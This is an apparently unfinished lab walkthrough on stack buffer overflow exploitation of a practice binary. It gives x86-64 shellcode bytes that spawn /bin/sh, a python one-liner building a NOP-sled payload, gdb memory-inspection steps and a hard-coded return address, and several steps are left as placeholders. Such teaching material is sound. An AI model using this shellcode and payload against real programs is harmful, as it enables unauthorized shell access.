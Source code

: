 

# Buffer overflows


First, take the time to understand the program. Using tools such as gdb, readelf, and objdump will help gain a better understanding of what the program is doing.

insert bof4 here

Big or little endian?:
```bash
readelf -h <path/to/binary>
```
This will tell you in what order the shellcode should be created, later injecting to change the behavior of the program.


The shellcode length (in bytes) must fit into to buffer that is allowing this exploit to occur. To account for the buffer size, find the length of the shellcode, sbutract it from the buffer size:

```python
buffersize = 154 - 6 #default value plus null termination
shellcode = "\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05"
print(buffersize - len(shellcode))
```

Using this available size, fill in the difference with `nops` that will be used as a point of insertion for the payload.

Let's have a look at any calls and moves involving source and destination registersusing gdb.

```bash
insert disas
pay attention to the lines: mov -0xa8(%rbp, %rdx)
                            mov -0xa0(%rbp, %rax)
x/s $rbp - 168
x/s $rbp - 160 # this should be the default value seen in the function
```

We should see if we are able to reach into this memory location by injecting some values:


python -c "print('\x90' * 100 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'A' * 10 + 'B' * 14)"


While we are unable to view rbp, we do have access to the stack. From here, we should be able to see our `nops`, shellcode, and added characters.

```bash
x/100x $rsp - 168

insert output here

use the address seen after the shellcode, remembering its endianness
0x7f ff ff ff e9 70
```
Using this address, add it after the shellcode.
